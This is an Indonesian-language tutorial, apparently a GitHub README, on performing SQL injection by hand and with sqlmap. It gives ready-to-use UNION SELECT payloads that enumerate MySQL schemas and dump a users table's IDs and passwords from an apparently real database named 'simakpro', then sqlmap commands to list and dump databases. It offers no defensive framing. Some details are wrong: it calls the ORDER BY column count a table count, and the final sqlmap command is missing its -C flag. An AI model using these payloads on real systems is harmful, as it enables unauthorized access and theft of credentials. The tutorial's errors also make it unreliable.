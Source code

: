 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "` pada value inputan
* Apabila terdapat vuln, maka masukan script `' ORDER BY n #`, Cth: `' ORDER BY 1 #`, `' ORDER BY 2 #`, `' ORDER BY 3 #`, dst sampai menemukan error, Script ini berguna untuk mengetahui jumlah tables dalam database.
* Apabila memasukan script di URL maka gunakan `' --+`, namun jika di inputan maka gunakan `' #` (`--+` penutup script di URL, `#` penutup script di inputan).
* Selanjutnya jika sudah diketahui banyaknya column, maka jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya, untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```

* Tambahan, Apabila column input tidak bisa menampilkan data secara perulangan maka bisa menggunakan fungsi: `GROUP_CONCAT(variable_name)`, Cth: `' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata #`


## Langkah-langkah melakukan SQL Injection secara otomatis menggunakan SQLMAP
* Mencari tahu apakah aplikasi website memiliki vuln sql injection dengan memasukan script ' secara manual ke inputan.
* Selanjutnya, Masukan perintah berikut untuk mengetahui vuln sql injectionnya
```bash
sqlmap -u "linkinputvulnSqlInjection"
```
* Selanjutnya, Masukan perintah berikut untuk mengetahui daftar isi databasenya
```bash
sqlmap -u "linkinputvulnSqlInjection" --dbs
```
* Selanjutnya, Masukan perintah berikut untuk melihat daftar tables didalam database yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name --tables
```
* Selanjutnya, Masukan perintah berikut untuk melihat struktur tables yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name --columns
```
* Terakhir, Masukan perintah berikut untuk melihat record data didalam tables dari nama columns yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name name_columns,name_columns --dump
```
